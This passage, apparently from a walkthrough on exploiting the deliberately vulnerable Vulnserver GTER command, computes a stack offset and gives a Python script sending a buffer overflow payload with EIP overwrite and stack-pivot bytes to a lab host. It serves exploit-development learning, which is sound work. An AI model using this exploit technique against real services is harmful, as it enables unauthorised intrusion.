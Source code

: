 <div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-fd-3.png">
</div>

The absolute address of ```ebp-420``` is ```0x00ecfb50``` where our value for file descriptor ```124``` is present in it

Our value of ```ESP``` is ```0x00ecf9c8```

The difference in offsets between these addresses are,

```c
>>> 0xecfb50 - 0xecf9c8
392
>>> hex(0xecfb50 - 0xecf9c8)
'0x188'
```

We can use this offset difference to dynamically load the value of file descriptor which will be stored on ```ESP+0x188```, at the moment when our ```stage 1 payload``` gets hit

Lets analyse it with our python script to check the memory when our data gets received into it

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat stack-pivot.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"\x90"*100
payload+=b"\xcc" #placing breakpoint 
payload+=b"\x90"*50
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 stack-pivot.py
```

While running this, we will be performing the ```jump shellcode (stage1)``` and we will be returned to the buffer data

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-fd-4.png">
</div>
